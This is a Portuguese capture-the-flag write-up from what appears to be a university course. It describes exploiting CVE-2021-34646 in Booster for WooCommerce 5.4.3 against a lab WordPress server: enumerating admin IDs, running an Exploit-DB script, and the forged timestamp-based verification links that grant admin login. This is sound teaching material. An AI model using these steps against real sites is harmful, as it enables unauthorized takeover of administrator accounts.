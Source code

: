 # CTF Semana #3 (Wordpress CVE)

## Reconhecimento e recolha de informação

Após aceder à página  **http://ctf-fsi.fe.up.pt:5001**, um servidor WordPress, começamos por navegar por todas as secções da aplicação web, de modo a recolher informações que nos possam ajudar a encontrar e explorar vulnerabilidades.
Assim sendo, depois de uma análise mais detalhada, encontramos as seguintes dependências/plugin na secção "Additional information", da página do produto "WordPress Hosting":

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3


## Pesquisa e escolha da vulnerabilidade

Uma vez identificados os plugins instalados e as versões dos mesmos, procedemos a uma pesquisa de vulnerabilidades que nos permitissem fazer login no servidor como administrador. Encontramos a **CVE-2021-34646**, uma vulnerabilidade do Booster for WooCommerce plugin 5.4.3, que atendia aos nossos requisitos.

## Exploração da vulnerabilidade

Descoberta a vulnerabilidade, fizemos uma pesquisa no Exploit Database deste CVE (disponível [aqui](https://www.exploit-db.com/exploits/50299)), o que nos forneceu passos detalhados de como explorá-la na plataforma:

1. Acedemos a **http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/**, onde identificamos os IDs dos administradores. Verificamos que ID = 1, uma vez que a primeira conta normalmente criada em sites WordPress é a conta do administrator e raramente é alterada.

2. Executamos o script de Python disponível na página, que usava esse mesmo identificador para lançar o ataque:

````bash
$ python3 exploit.py http://ctf-fsi.fe.up.pt:5001 1
````

## Explicação do ataque

1. Foi feita uma solicitação ao URL inicial do site vulnerável com o parâmetro wcj_user_id definido como o ID do usuário que queríamos explorar (neste caso, com ID=1, seria http://ctf-fsi.fe.up.pt:5001/api?wcj_user_id=1).

<img src="../screenshots/ctf1/request.png" alt="request sent">

2. Assim que a solicitação foi enviada, a função reset_and_mail_activation_link() foi executada, permitindo ao usuário recuperar o user_id fornecido, através de um link de verificação gerado que poderia ser usado para verificar o endereço de e-mail. No entanto, como o código de verificação era simplesmente um hash MD5 do momento da solicitação, a vulnerabilidade poderia ser facilmente explorada.

3. Por fim, bastava formar um link de validação de login com uma chave codificada em Base 64 através do timestamp do momento da solicitação, permitindo que o atacante se autenticasse como o administrador do site.

## Resultados

Como resultados obtivemos os seguintes links:

````
Timestamp: Sat, 07 Oct 2023 14:24:29 GMT
Timestamp (unix): 1696688669

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4483648f775bada837cd01ff4912fd7e:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDQ4MzY0OGY3NzViYWRhODM3Y2QwMWZmNDkxMmZkN2UifQ

#1 link for hash 7cdedfcd573df0e2ee6c62f2733ce7e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2NkZWRmY2Q1NzNkZjBlMmVlNmM2MmYyNzMzY2U3ZTgifQ

#2 link for hash 5738fc0222e582b5b6441737cdeff829:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNTczOGZjMDIyMmU1ODJiNWI2NDQxNzM3Y2RlZmY4MjkifQ
````

A partir dos quais conseguimos aceder à plataforma usando a conta do administrador.

<img src="../screenshots/ctf1/admin_account.png" alt="admin account">
